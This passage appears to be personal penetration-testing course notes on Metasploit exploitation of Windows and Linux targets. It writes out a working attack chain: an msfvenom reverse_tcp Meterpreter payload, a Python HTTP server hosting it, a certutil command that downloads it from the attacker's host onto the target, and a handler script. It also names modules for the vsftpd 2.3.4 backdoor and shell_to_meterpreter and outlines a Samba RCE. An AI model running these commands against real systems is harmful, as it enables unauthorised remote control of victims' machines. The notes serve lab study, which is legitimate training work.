 ctrl+z t background the task
- Since the session created is a java shell (upgrading to meterpreter directly will not work)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=1234 -f exe > meterpreter.exe`
`sudo python -m SimpleHTTPServer 80`

On the target session
`certutil -urlcache -f http://<attackerip>/meterpreter.exe meterpreter.exe`
-> inbuilt windows utility

setup a handler
`nano handler.rc`
```bash
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ip>
set port 1234
run
```
`msfconsole -r handler.rc`

On compromised session
`.\meterpreter.exe`


## Linux exploitation

### FTP vuln exploit
- File transer protocol
- To transfer website files to and from a webserver
- Provide access to the dir where web dir is hosted

- vsftp v2.3.4 vuln to CMD exec vuln 
- Facilitated by a malicious backdoor that was added to vsftp download archive through supply chain attack which was removed in later versions

Demo:
After the db_nmap scan 
`analyze` -> see if any vulns can be found automagic
If not, just search the versions

/ftp/vsftpd_234_backdoor

post/multi/manage/shell_to_meterpreter
`set LHOST eth1`
`set sessions 1`

Error might appear but the session should be created
`sessions 2`

### Samba vuln exploit
- SMB but for linux

- Samba V3.5.0 vuln to RCE
- allows malicious client to upload a shared lib to a writable share
- Cause server to load and exe it
- Similar to the eternal blue exploit
